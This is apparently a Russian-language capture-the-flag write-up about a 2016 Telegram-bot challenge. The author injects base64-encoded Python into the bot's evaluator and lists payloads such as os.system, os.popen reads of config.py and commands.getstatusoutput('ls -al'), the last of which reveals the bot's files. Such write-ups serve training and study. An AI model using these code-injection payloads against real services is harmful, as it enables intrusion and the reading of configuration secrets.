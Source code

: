 На представленном изображении видно как я подбирал и искал флаг, причем когда я дошел до средств чтения данных из файла в python, то обнаружил что в выводе я получат код их исполнения и больше ничего! Было очень обидно и нужно было найти какой-то способ.

Вот такие команды я пытался выполнить:

```python
 echo -e "__import__('os').system('ls')" | base64
 echo -e "__import__('os').system('flag')" | base64
 echo -e "__import__('os').popen('config.py').read()" | base64
 echo -e "__import__('os').popen('config.pyc').read()" | base64
 echo -e "__import__('os').system('cat ./config.py')" | base64
 echo -e "__import__('os').popen('./config.py').read()" | base64
 echo -e "__import__('subprocess').check_output("ls", shell=True)" | base64
```

Но мне приходил либо код выполнения фунции либо размер файла в байтах, ну в общем не то что нужно.

В итоге решающей командой, которая дала мне возможность получить список файлов оказалась `echo -e "__import__('commands').getstatusoutput('ls -al')[1]" | base64`  И вот перед нами структура файлов в директории бота:

 ![chat_bot_3](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/hackyou.ctf.su/reverse_200_telebot/imgs/chat_bot_3.png)
